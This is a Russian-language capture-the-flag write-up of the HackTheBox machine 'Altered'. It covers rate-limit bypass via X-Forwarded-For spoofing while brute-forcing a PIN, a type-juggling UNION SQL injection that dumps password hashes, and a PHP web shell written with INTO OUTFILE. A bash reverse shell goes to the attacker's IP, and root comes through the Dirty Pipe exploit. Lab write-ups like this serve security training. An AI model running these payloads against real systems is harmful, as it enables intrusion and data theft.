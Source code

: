 # 🔴 Altered (Linux, Hard)

![](<../../../../.gitbook/assets/image (4).png>)

### Содержание:

После сканирования портов, мы обнаружим только два. На 80-ом порте будет форма авторизации и резета пароля с пинкодом. Просто перебирать четырехзначный пинкод не получится, так как после нескольких неправильных попыток, система блокирует запросы от пользователя. Laravel настроен так, что он использует Nginx, как прокси, следовательно, можно перезаписать HTTP-заголовки и брутить пинкод с нескольких айпи через X-Forwarded-For. После того, как мы получим доступ к учетке админа, можно будет проэксплуатировать SQLi, при этом тоже обойдя фильтры с помощью подмены типа переменной(Type Juggling). С помощью этой же SQLi получим непривилегированную оболочку и проэксплутируем вулну dirty pipe для уязвимого ядра линукса, чтобы рутироваться.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.159 -oN nmap
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: UHC March Finals
|_Requested resource was http://10.10.11.159/login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



![](<../../../../.gitbook/assets/image (7).png>)

### Угадываем имя пользователя:

Через данную форму можно угадывать имена пользователей, например, я ввел - "**admin"**:

![](<../../../../.gitbook/assets/image (9).png>)

Также можно восстановить пароль, но нужно знать пинкод, следовательно, можно его пробрутить:

![](<../../../../.gitbook/assets/image (13).png>)

### Обходим Rate Limit и брутим пинкод:

Так как, если начать прямо брутить пинкод через **wfuzz**, то сервер начинает блокировать запросы (где-то после 60-ого запроса), т.е. тут стоит **Rate Limit**. На сайте используется **Laravel**, это можно определить по хранящимся кукам. А **Laravel** настроен так, что он использует **Nginx**, как прокси, следовательно, можно перезаписать **HTTP-заголовки** и брутить пинкод с нескольких айпи через **X-Forwarded-For**. Поэтому делаем два словаря, один для заголовка **X-Forwarded-For**:&#x20;

```
for i in {1..100}; do (for i in {1..254}; do echo $i; done); done >> wordlist1.txt
```

А другой для пинкода:

```
(for i in {0000..9999}; do echo $i; done) >> wordlist2.txt
```

Так как мы будем использовать цикл с этими двумя словарями, следовательно, нужно, чтобы в **wordlist1.txt** было больше слов, чем в **wordlist2.txt**:

```
wfuzz -H 'Cookie: XSRF-TOKEN=eyJpdiI6InlZZUE4bUkvODdaL2s5UHVHYVYzenc9PSIsInZhbHVlIjoiekdoaENqeUVrVVZwOTF3OVUwUURodTNTUUlPbVJzWkNIcFl5Q3QzSElGSnc5eE9IZzBaMno1OEd1eUFCdXE0QWg0RzV3ZFZQRi9QTVBkM0hNUGprdDBaREtOTUcyNS91bTlpQ1BZTTlLS05pMU15MU92aE93bGtua1c2SGwzV3oiLCJtYWMiOiI5ZGFjMmIyZTQ4OTc0ZTEzNzg2YzZjMWI5NmNmNGJjNGFiZDdhODg0ZWRiNjRjODllMGVhNTBjNGQxMGExMGRmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFsSDFSODIrQ3lZZzRQKzFHclI4eWc9PSIsInZhbHVlIjoiSkxPVDIrRUU4RmxxRXlaLzZ1alh5cC9oRnllTFpHOGpRYmQyMTUvWkVvYmJycEVSSWUwOFMxNmxINHlENU02Rk5GT2RPU0MvNmZBdGorSXJOUG1XSXlJNk4wd2dZVUpIN0lSd3JFRk1lSURpZElkdmE4VCtkcWkxVG1yT0s0SFIiLCJtYWMiOiJmZjY0MzZiY2I2NzcxM2NlYzExM2ZhNDY5OTg5MTY1YWQ5OWMxNzgxMjBjMzBmZDAwODE4ZjM1OWE1YzBmZTUyIiwidGFnIjoiIn0%3D' -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.11.159/api/resettoken -d 'name=admin&pin=FUZZ' -z range,1000-9999 -m zip -w wordlist1.txt  -H 'X-Forwarded-For: 127.0.0.FUZ2Z' --hh 5644
```

**Wfuzz** используем со специальным флагом **-m zip**, чтобы указать два словаря на два параметра фаззинга.

![](../../../../.gitbook/assets/image.png)

Пинкод - 5118, введя его и изменив пароль админа, мы можем войти в панель:

![](<../../../../.gitbook/assets/image (15).png>)

При клике на ссылку **view** у нас образуется **GET-запрос** с двумя параметрами **id** и **secret**:

![](<../../../../.gitbook/assets/image (3).png>)

### Обходим фильтры и эксплуатируем SQLi:

При изменении параметра **id** вылетает ошибка, сообщающая о предотвращении пользовательского ввода. Так, как определенный параметр **id** должен соответствовать определенному параметру **secret**(который является **md5** хэшем, **32** символа), то мы не можем попытаться эксплуатировать **SQLi**, следовательно, можно попробовать преобразовать тело запроса в **json** и попробовать эксплуатировать вулну, которая заключается в преобразовании типов(**Type Juggling**). Я ее подробно разобрал в райтапе по [Ransom](https://tragernout.gitbook.io/hackandgtfo/hackthebox-writeups/ransom-linux-medium), а также нашел подробную статью по этому типу вулны [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf):

```http
GET /api/getprofile HTTP/1.1
Host: 10.10.11.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/json
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://10.10.11.159/
Cookie: XSRF-TOKEN=eyJpdiI6IlJsUnBqS0RrNG1xNWhxNFloWGpsZXc9PSIsInZhbHVlIjoiU01DY2YvOENtNHpHM1QzK2Z6c0l4OGpRSkNLeDQyVzk5emVHNU55TEIvSXRkZzRERXphNXBKSUxOaTFmSjNwNXNkaXJWMnhQMTVQclVLRVd0ckZDcFlTYXJ6OC9sdDNDZkxpSW91SEl6WlNnWnJGYTZVZXhkSlR4VjEzaGlUbnUiLCJtYWMiOiJlODZkYWFlMTYyNGFmMDRiYmUwZDgyNTM1YjZhZjc0ZWQyMTUyNzg1YmIwZGJmZGQ5MjgwMzhmNmE1NTAyNjQwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjdLWnAwUFZhb1RCRG90T1NZOGJocmc9PSIsInZhbHVlIjoiQjQ4R0Zkcm1BOHJ6ZlBnbFc5a1ptbVcrNXRPWUJ2MnlXbUE2ZzAwbDZKMDc2WDI1MlQwaldTVkdIYUNMZStLNFAxSGptOGhGNFhaM0piclFjTVB6WDgrYzErOEtyYlBTb0h0OUhsU2I2a1oycUhHWHd2bzA5OUpQQVBpZVR1ZXYiLCJtYWMiOiIwNDM0ZTM3YmYzODU3ZTVhODYzMWU1MmE0MmFmNzk3MDdlOWZiNWMyMzBmYTc3MTZlMDI3ZTRlNTAwMmQ5OWQwIiwidGFnIjoiIn0%3D
Content-Length: 60

{
"id":"2",
"secret":"c5169f4e0e83fd309f4d72a354021c60"
}
```

![](<../../../../.gitbook/assets/image (11).png>)

![](<../../../../.gitbook/assets/image (1).png>)

Далее я просто раскрутил **UNION SQLi**([о ней я тоже сделал статью](https://tragernout.gitbook.io/hackandgtfo/owasp-top-10/sql-union-injection)):

* Подбираем количество столбцов в **БД**, которая сейчас используется с помощью **null**:

![](<../../../../.gitbook/assets/image (16).png>)

* Смотрим какие есть базы данных:

![](<../../../../.gitbook/assets/image (2).png>)

```
{
"id":"1337 union select null,null,group_concat(schema_name) from information_schema.schemata -- -",
"secret": true
}
```

* Вытаскиваем таблицы из базы данных **uhc**:

```
1337 union select null,null,group_concat(table_name) from information_schema.tables where table_schema='uhc' -- -
```

```
failed_jobs,migrations,password_resets,personal_access_tokens,tasks,users
```

* Вытаскиваем столбцы из таблицы **users** базы данных **uhc**:

```
1337 union select null,null,group_concat(column_name) from information_schema.columns where table_schema='uhc' and table_name='users' -- -
```

```
bio,country,created_at,email,email_verified_at,id,name,password,remember_token,updated_at
```

* Достаем значения, которые нам ничего не дают :joy: :

```
1337 union select null,null,group_concat('\n', email, ':', name, ':', password) from uhc.users -- -
```

```
big0us@htb.local:big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2,
celesian@htb.local:celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,
luska@htb.local:luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,
tinyb0y@htb.local:tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,
o-tafe@htb.local:o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,
watchdog@htb.local:watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,
mydonut@htb.local:mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,
bee@htb.local:bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm,
admin@htb.local:admin:$2y$10$uYmwbmWFdhy6mFXFPqgU3uDJDg1pJFJfWStkcaJY7LLJ69G17GdHC
```

### Создаем Reverse Shell через SQLi:

Мы можем читать файлы, следовательно, можем найти корневую папку сервера:

![](<../../../../.gitbook/assets/image (12).png>)

Теперь попробуем создать свой файл **html**, записать в него что-то и проверить, имеем ли мы права создавать и редактировать файлы:

![](<../../../../.gitbook/assets/image (6).png>)

![](<../../../../.gitbook/assets/image (18).png>)

Все работает, переходим к созданию реверс шелла:

```
{
"id":"1337 union select null,null,'<?php system($_REQUEST[\"cmd\"]) ?>' into outfile '/srv/altered/public/tragernout.php' -- -",
"secret": true
}
```

![](<../../../../.gitbook/assets/image (8).png>)

Но веб шелл нас не устраивает, поэтому перехватываем запрос и меняем его метод, а потом в параметр **cmd** вставляем наш пэйлоад в **URL-энкоде**:

![](<../../../../.gitbook/assets/image (5).png>)

```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.44/9898+0>%261'
```

![](<../../../../.gitbook/assets/image (10).png>)

### Рутируемся через Dirty Pipe(CVE-2022-0847):

```
$ uname -a
```

```
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Мы можем погуглить версию ядра линукс 5.16.0 и найти **CVE-2022-0847 (Dirty Pipe):**

{% embed url="https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits" %}

Если вкратце, то вулна **Dirty Pipe** позволяет перезаписывать любые файлы, но только после первого символа в них. Получается, нам нужно искать **SUID-файлы**, которые мы перезапишем и рутируемся:

Скачиваем второй эксплоит к себе на машину, компилируем и поднимаем пайтоновский веб-сервер:

```
$ gcc exploit-2.c -o exploit
$ python3 -m http.server
```

![](<../../../../.gitbook/assets/image (19).png>)

